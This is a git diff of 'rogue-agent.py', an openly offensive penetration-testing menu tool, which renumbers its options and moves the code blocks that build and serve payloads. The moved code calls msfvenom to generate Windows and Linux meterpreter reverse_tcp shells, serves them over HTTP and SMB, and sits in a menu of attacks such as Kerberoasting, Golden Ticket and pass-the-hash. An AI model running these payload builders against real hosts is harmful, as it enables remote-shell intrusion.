

TREADSTONE

Changed region(s): [[0.0, 0.0621, 1.0, 0.9935], [0.031, 0.0, 0.0931, 0.031]]

diff --git a/rogue-agent.py b/rogue-agent.py
@@ -538,16 +538,16 @@ def display():
    
 def options():
    print('\u2551' + "(01) Re/Set DNS  SERVER (12) Synchronize Time (23) Get Arch (34) WinLDAP Search (45) Kerberos Info (56) Domain Dump (67) Editor USER (78) Hydra  FTP (89) FTP      " + '\u2551')
-   print('\u2551' + "(02) Re/Set REMOTE   IP (13) Whois DNS SERVER (24) Net View (35) Look up SecIDs (46) KerberoFilter (57) *BloodHound (68) Editor PASS (79) Hydra  SSH (90) SSH      " + '\u2551')
-   print('\u2551' + "(03) Re/Set LIVE  PORTS (14) dig   DNS SERVER (25) Services (36) Sam Dump Users (47) KerberosBrute (58) *BH  ACLPWN (69) Editor HASH (80) Hydra  SMB (91) SSHKeyID " + '\u2551')
-   print('\u2551' + "(04) Re/Set WEBSITE URL (15) Recon DNS SERVER (26) AT  Exec (37) REGistry Hives (48) Kerberoasting (59) SecretsDump (70) Editor HOST (81) Hydra POP3 (92) Telnet   " + '\u2551')
-   print('\u2551' + "(05) Re/Set USER   NAME (16) Dump  DNS SERVER (27) DCOMExec (38) Find EndPoints (49) Kerbero Spray (60) CrackMapExe (71) GenSSHkeyID (82) Hydra HTTP (93) Netcat   " + '\u2551')
-   print('\u2551' + "(06) Re/Set PASS   WORD (17) NMap  LIVE PORTS (28) PS  Exec (39) Enum End Point (50) PASSWORD2HASH (61) PSExec HASH (72) GenListUser (83) Hydra  TOM (94) SQSH     " + '\u2551')
-   print('\u2551' + "(07) Re/Set NTLM   HASH (18) NMap PORTService (29) SMB Exec (40) RpcClient Serv (51) HASHs Sprayer (62) SmbExecHASH (73) GenListPass (84) MSF TOMCAT (95) MSSQL    " + '\u2551')
-   print('\u2551' + "(08) Re/Set TICKET NAME (19) Nmap Sub DOMAINS (30) WMI Exec (41) SmbClient Serv (52) Pass the HASH (63) WmiExecHASH (74) GenPhishCod (85) MSF  SHELL (96) MySQL    " + '\u2551')
-   print('\u2551' + "(09) Re/Set DOMAIN NAME (20) Create  Exploits (31)          (42) Smb Map SHARES (53) Silver Ticket (64) Remote Sync (75) AutoPhisher (86) Evil WinRm (97)          " + '\u2551')
-   print('\u2551' + "(10) Re/Set DOMAIN  SID (21) Start HTTPServer (32)          (43) Smb Dump Files (54) Golden Ticket (65) RSync Dumps (76) Dir Searchs (87) RemDesktop (98)          " + '\u2551')
-   print('\u2551' + "(11) Re/Set SHARE  NAME (22) Start SMB Server (33)          (44) SmbMount SHARE (55) Golden DC PAC (66) NTDSDECRYPT (77) Nikto Scans (88) FreeRDPX11 (99) Exit     " + '\u2551')
+   print('\u2551' + "(02) Re/Set REMOTE   IP (13) Compile Exploits (24) Net View (35) Look up SecIDs (46) KerberoFilter (57) *BloodHound (68) Editor PASS (79) Hydra  SSH (90) SSH      " + '\u2551')
+   print('\u2551' + "(03) Re/Set LIVE  PORTS (14) Start HTTPServer (25) Services (36) Sam Dump Users (47) KerberosBrute (58) *BH  ACLPWN (69) Editor HASH (80) Hydra  SMB (91) SSHKeyID " + '\u2551')
+   print('\u2551' + "(04) Re/Set WEBSITE URL (15) Start SMB Server (26) AT  Exec (37) REGistry Hives (48) Kerberoasting (59) SecretsDump (70) Editor HOST (81) Hydra POP3 (92) Telnet   " + '\u2551')
+   print('\u2551' + "(05) Re/Set USER   NAME (16) WhoIs DNS SERVER (27) DCOMExec (38) Find EndPoints (49) Kerbero Spray (60) CrackMapExe (71) GenSSHkeyID (82) Hydra HTTP (93) Netcat   " + '\u2551')
+   print('\u2551' + "(06) Re/Set PASS   WORD (17) Dig   DNS SERVER (28) PS  Exec (39) Enum End Point (50) PASSWORD2HASH (61) PSExec HASH (72) GenListUser (83) Hydra  TOM (94) SQSH     " + '\u2551')
+   print('\u2551' + "(07) Re/Set NTLM   HASH (18) Recon DNS SERVER (29) SMB Exec (40) RpcClient Serv (51) HASHs Sprayer (62) SmbExecHASH (73) GenListPass (84) MSF TOMCAT (95) MSSQL    " + '\u2551')
+   print('\u2551' + "(08) Re/Set TICKET NAME (19) Dump  DNS SERVER (30) WMI Exec (41) SmbClient Serv (52) Pass the HASH (63) WmiExecHASH (74) GenPhishCod (85) MSF  SHELL (96) MySQL    " + '\u2551')
+   print('\u2551' + "(09) Re/Set DOMAIN NAME (20) Nmap Live  PORTS (31)          (42) Smb Map SHARES (53) Silver Ticket (64) Remote Sync (75) AutoPhisher (86) Evil WinRm (97)          " + '\u2551')
+   print('\u2551' + "(10) Re/Set DOMAIN  SID (21) Nmap PORTService (32)          (43) Smb Dump Files (54) Golden Ticket (65) RSync Dumps (76) Dir Searchs (87) RemDesktop (98)          " + '\u2551')
+   print('\u2551' + "(11) Re/Set SHARE  NAME (22) Nmap Sub DOMAINS (33)          (44) SmbMount SHARE (55) Golden DC PAC (66) NTDSDECRYPT (77) Nikto Scans (88) FreeRDPX11 (99) Exit     " + '\u2551')
    print('\u255A' + ('\u2550')*163 + '\u255D')
    return
 
@@ -1146,6 +1146,72 @@ while True:
          print("[-] Server synchronisation did not occur...")
                  
       prompt()
+      
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : TREADSTONE                                                             
+# Details : Menu option selected - Create locally defined exploit files.
+# Details : 
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '13':
+      num = input("[*] Please specify listening port :")
+      
+      if num.isdigit():
+         print("[*] Creating exploits please wait...")
+         command("msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=" + localIP + " LPORT=" + num + " --platform windows -a x64 -f exe -o " + httpDir + "/winshell64.exe > /dev/null 2>&1")
+         command("msfvenom -p windows/meterpreter/reverse_tcp LHOST="     + localIP + " LPORT=" + num + " --platform windows -a x86 -f exe -o " + httpDir + "/winshell32.exe > /dev/null 2>&1")
+         command("msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST="   + localIP + " LPORT=" + num + " --platform linux -a x64 -f elf -o "   + httpDir + "/linshell64.elf > /dev/null 2>&1")
+         command("msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="   + localIP + " LPORT=" + num + " --platform linux -a x86 -f elf -o "   + httpDir + "/linshell32.elf > /dev/null 2>&1")
+      else:
+         print("[-] Sorry, I do not understand...")
+
+      prompt()
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : TREADSTONE                                                             
+# Details : Start HTTP server.
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '14':
+      num = input("[*] Please specify listening port :")
+      
+      if num.isdigit():
+         print("[*] Starting HTTP server...")
+      
+         command("xdotool key Ctrl+Shift+T")
+         command("xdotool key Alt+Shift+S; xdotool type 'HTTP SERVER'; xdotool key Return"); time.sleep(1)
+         command("xdotool type 'clear; cat " + dataDir + "/banner1.txt'; xdotool key Return"); time.sleep(1)
+         command("xdotool type 'python3 -m http.server " + num + "'; xdotool key Return"); time.sleep(1)
+         command("xdotool key Ctrl+Tab")      
+      else:
+         print("[-] Sorry, I do not understand...")
+      
+      prompt()
+
+# ------------------------------------------------------------------------------------- 
+# AUTHOR  : Terence Broadbent                                                    
+# CONTRACT: GitHub
+# Version : TREADSTONE                                                             
+# Details : Start SMB server.
+# Modified: N/A
+# -------------------------------------------------------------------------------------
+
+   if selection == '15':
+      print("[*] Starting SMB server...")
+
+      command("xdotool key Ctrl+Shift+T")
+      command("xdotool key Alt+Shift+S; xdotool type 'SMB SERVER'; xdotool key Return"); time.sleep(1)
+      command("xdotool type 'clear; cat " + dataDir + "/banner2.txt'; xdotool key Return"); time.sleep(1)
+      command("xdotool type 'impacket-smbserver C:\\tmp " + httpDir + "/ -smb2support'; xdotool key Return"); time.sleep(1)
+      command("xdotool key Ctrl+Tab")
+            
+      prompt()
 
 # ------------------------------------------------------------------------------------- 
 # AUTHOR  : Terence Broadbent                                                    
@@ -1155,7 +1221,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '13':
+   if selection == '16':
       if DNS[:5] == "EMPTY":
          print("[-] DNS has not been specified...")
          checkParams = 1      
@@ -1173,7 +1239,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '14':
+   if selection == '17':
       if DNS[:5] == "EMPTY":
          print("[-] DNS has not been specified...")
          checkParams = 1
@@ -1191,7 +1257,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '15':
+   if selection == '18':
       if DOM[:5] == "EMPTY":
          print("[-] Domain has not been specified...")
          checkParams = 1
@@ -1209,7 +1275,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '16':
+   if selection == '19':
       checkParams = testTwo()      
                
       if USR[:2] == "''":
@@ -1234,7 +1300,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '17':
+   if selection == '20':
       checkParams = testOne()      
       
       if checkParams != 1:
@@ -1258,7 +1324,7 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '18':
+   if selection == '21':
       checkParams = testOne()  
       
       if checkParams != 1:
@@ -1278,77 +1344,11 @@ while True:
 # Modified: N/A
 # -------------------------------------------------------------------------------------
 
-   if selection == '19':
+   if selection == '22':
       checkParams = testTwo()
       
       if checkParams != 1:
          command("nmap " + IP46 + " --script http-vhosts --script-args http-vhosts.domain=" + DOM.rstrip(" ") + " " + TIP.rstrip(" "))
-      prompt()
-      
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : TREADSTONE                                                             
-# Details : Menu option selected - Create locally defined exploit files.
-# Details : 
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '20':
-      num = input("[*] Please specify listening port :")
-      
-      if num.isdigit():
-         print("[*] Creating exploits please wait...")
-         command("msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=" + localIP + " LPORT=" + num + " --platform windows -a x64 -f exe -o " + httpDir + "/winshell64.exe > /dev/null 2>&1")
-         command("msfvenom -p windows/meterpreter/reverse_tcp LHOST="     + localIP + " LPORT=" + num + " --platform windows -a x86 -f exe -o " + httpDir + "/winshell32.exe > /dev/null 2>&1")
-         command("msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST="   + localIP + " LPORT=" + num + " --platform linux -a x64 -f elf -o "   + httpDir + "/linshell64.elf > /dev/null 2>&1")
-         command("msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="   + localIP + " LPORT=" + num + " --platform linux -a x86 -f elf -o "   + httpDir + "/linshell32.elf > /dev/null 2>&1")
-      else:
-         print("[-] Sorry, I do not understand...")
-
-      prompt()
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : TREADSTONE                                                             
-# Details : Start HTTP server.
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '21':
-      num = input("[*] Please specify listening port :")
-      
-      if num.isdigit():
-         print("[*] Starting HTTP server...")
-      
-         command("xdotool key Ctrl+Shift+T")
-         command("xdotool key Alt+Shift+S; xdotool type 'HTTP SERVER'; xdotool key Return"); time.sleep(1)
-         command("xdotool type 'clear; cat " + dataDir + "/banner1.txt'; xdotool key Return"); time.sleep(1)
-         command("xdotool type 'python3 -m http.server " + num + "'; xdotool key Return"); time.sleep(1)
-         command("xdotool key Ctrl+Tab")      
-      else:
-         print("[-] Sorry, I do not understand...")
-      
-      prompt()
-
-# ------------------------------------------------------------------------------------- 
-# AUTHOR  : Terence Broadbent                                                    
-# CONTRACT: GitHub
-# Version : TREADSTONE                                                             
-# Details : Start SMB server.
-# Modified: N/A
-# -------------------------------------------------------------------------------------
-
-   if selection == '22':
-      print("[*] Starting SMB server...")
-
-      command("xdotool key Ctrl+Shift+T")
-      command("xdotool key Alt+Shift+S; xdotool type 'SMB SERVER'; xdotool key Return"); time.sleep(1)
-      command("xdotool type 'clear; cat " + dataDir + "/banner2.txt'; xdotool key Return"); time.sleep(1)
-      command("xdotool type 'impacket-smbserver C:\\tmp " + httpDir + "/ -smb2support'; xdotool key Return"); time.sleep(1)
-      command("xdotool key Ctrl+Tab")
-            
       prompt()
       
 # ------------------------------------------------------------------------------------- 

diff --git a/README.md b/README.md
@@ -28,7 +28,7 @@ A comprehensive, yet sleek and portable python script file that enables cyber se
 | LANGUAGE  | FILENAME       | MD5 Hash                         | Description     | Version    |
 |------     |-------         | -------                          | ----            |  ----       |
 | python3   | install.py     | 5ec474ef06b195adecb122181b837b7a | Install Program | TREADSTONE |
-| python3   | rogue-agent.py | 319934bc6271d7986b2c3b3ced385022 | Command Centre  | TREADSTONE |
+| python3   | rogue-agent.py | a12dbab7f57eecdf400d2fef9123d933 | Command Centre  | TREADSTONE |
        
 ## CONSOLE DISPLAY AND VIDEO LINK
 
